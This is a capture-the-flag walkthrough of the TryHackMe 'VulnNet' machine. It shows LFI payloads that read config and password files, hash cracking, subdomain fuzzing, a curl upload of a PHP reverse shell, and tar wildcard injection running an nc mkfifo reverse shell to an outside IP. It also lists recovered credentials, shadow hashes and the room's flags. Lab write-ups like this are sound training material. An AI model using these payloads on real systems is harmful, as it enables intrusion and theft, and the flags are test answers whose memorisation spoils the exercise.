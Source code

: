 # VULNNET

![](../.gitbook/assets/ccb91cfb209640e2af7ed56459046be9.png)

## NMAP SCAN

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
|_  256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VulnNet
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/877dc1adacbc4bc28f4341be44e85086.png)

### /LOGIN

![](../.gitbook/assets/31856c5dcaee4543ad12ef02ec4acf45.png)

### IN BURPSUITE I FOUND A POSSIBLE LFI VULN

![](../.gitbook/assets/11df298128e443f09a301fe645fe4cb2.png)

```text
view-source:http://vulnnet.thm/index.php?referer=/etc/passwd
```

![](../.gitbook/assets/995ab71fc77f415b828846cfebbb95be.png)

### .HTACCESS

```text
view-source:http://vulnnet.thm/index.php?referer=/var/www/html/.htaccess
```

```javascript
########## Begin - Rewrite rules to block out some common exploits
#                              
# Block out any script trying to set a mosConfig value through the URL
RewriteCond %{QUERY_STRING} mosConfig_[a-zA-Z_]{1,21}(=|\%3D) [OR]
# Block out any script trying to base64_encode crap to send via URL
RewriteCond %{QUERY_STRING} base64_encode.*\(.*\) [OR]
# Block out any script that includes a <script> tag in URL
RewriteCond %{QUERY_STRING} (\<|%3C).*script.*(\>|%3E) [NC,OR]
# Block out any script trying to set a PHP GLOBALS variable via URL
RewriteCond %{QUERY_STRING} GLOBALS(=|\[|\%[0-9A-Z]{0,2}) [OR]
# Block out any script trying to modify a _REQUEST variable via URL
RewriteCond %{QUERY_STRING} _REQUEST(=|\[|\%[0-9A-Z]{0,2})
# Send all blocked request to homepage with 403 Forbidden error!
#RewriteRule ^(.*)$ index.php [L]
RewriteRule ^([^.]*)/?$ index.php [L]
```

### INDEX.PHP

```text
view-source:http://vulnnet.thm/index.php?referer=php://filter/convert.base64-encode/resource=/var/www/html/index.php
```

![](../.gitbook/assets/873201da9f9447d9be61caaebe9d010a.png)

### CONFIG.INC.PHP

```text
view-source:http://vulnnet.thm/index.php?referer=php://filter/convert.base64-encode/resource=/var/www/html/includes/config.inc.php
```

* FROM HERE I WENT TO COMMON.PHP AND SAW THE NAME \(dbconnect.php\)

### DBCONNECT.PHP

```text
view-source:http://vulnnet.thm/index.php?referer=php://filter/convert.base64-encode/resource=/var/www/html/includes/dbconnect.php
```

![](../.gitbook/assets/c070711d4f0f4869b32b70f2b41b1eed.png)

```text
admin:VulnNetAdminPass0990
```

### .HTPASSWD

```text
view-source:http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```

```bash
sudo john hash --wordlist=/opt/passwd/rockyou.txt
```

![](../.gitbook/assets/b60cf215958c4e8e80f147dcd1a7eef5.png)

```text
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls
```

* DIDN´T WORK ALSO IN LOGIN PAGE
* AFTER SEEING ALL THE FILES \([https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File Inclusion/Intruders/Linux-files.txt\) AND](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt%29AND) GET NOTHING, I DECIDED TO ENUMERATE SUBDOMAINS \(EVEN WITH 2 CREDS\)

### SUBDOMAINS ENUMERATION

```bash
wfuzz -c -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 5829
```

![](../.gitbook/assets/43945fe098394beb9fa09349179d26b1.png)

* ADD BROADCAST.VULNNET.THM TO YOUR HOSTS

### BROADCAST.VULNET.THM

* DEVELOPERS CREDS WORKED 

![](../.gitbook/assets/af49b929c98448d1a7b166bef36b68e0.png)

* CLIPBUCKET V4.0 

![](../.gitbook/assets/ce51601601474b5fbfed8f716688a81f.png)

![](../.gitbook/assets/b8794dd592a849dfa17024bb40fdf133.png)

### UPLOAD A REVERSE SHELL

```text
https://www.exploit-db.com/exploits/44250
```

```bash
curl -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```

![](../.gitbook/assets/545363223a7246838772a9813c93f049.png)

```text
http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1616297818aecd75.php
```

![](../.gitbook/assets/c6b299876593419d8be4e4abad53f4b8.png)

## MACHINE ENUMERATION

### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

### LINPEAS FINDINGS

* CRONJOBS

```text
* * * * root    /var/opt/backupsrv.sh
```

### SSH BACKUP

```text
/var/backups/ssh-backup.tar.gz

ssh2john id_rsa > pass
```

![](../.gitbook/assets/4536e81db667477da4c577a4eefc71ee.png)

```text
oneTWO3gOyac
```

## LOGIN SSH

```text
ssh -i id_rsa server-management@10.10.105.45
```

![](../.gitbook/assets/597a4512d5084f648cf0c2ec3bfb0b5c.png)

## PRIVESC

```text
/var/opt/backupsrv.sh
```

![](../.gitbook/assets/c2094c069e28473c87cf1375026d21aa.png)

```text
https://gtfobins.github.io/gtfobins/tar/#sudo
```

![](../.gitbook/assets/a21fe1e60fa9463c918722ca1f00c215.png)

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.214.87 9999 >/tmp/f" > shell.sh

echo "" > "--checkpoint-action=exec=bash shell.sh"

echo "" > --checkpoint=1
```

![](../.gitbook/assets/4c516f0817554d1592323881b73b3418.png)

## HASHES

```text
root:$6$7ZUB5Wuw$rl8t6KolOI2YKOYE2e3z7gFYwlbjVUrkOXZG6MMIDDPehoiAKjN9WslMqx/w19GgvLVTwCXyoSTrm4ogQmgAg.:18650:0:99999:7:::
server-management:$6$5lxo385N$kMG/mtf4fGqP9I8iPPHwwHJJj4JFMkrfI1DuaHHYlEuo9Ymveeq12boUKlw/4zBi.i8Y6RUh93QZthCjuagBB0:18650:0:99999:7:::
```

## FLAGS

### USER

```text
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

### ROOT

```text
THM{220b671dd8adc301b34c2738ee8295ba}
```

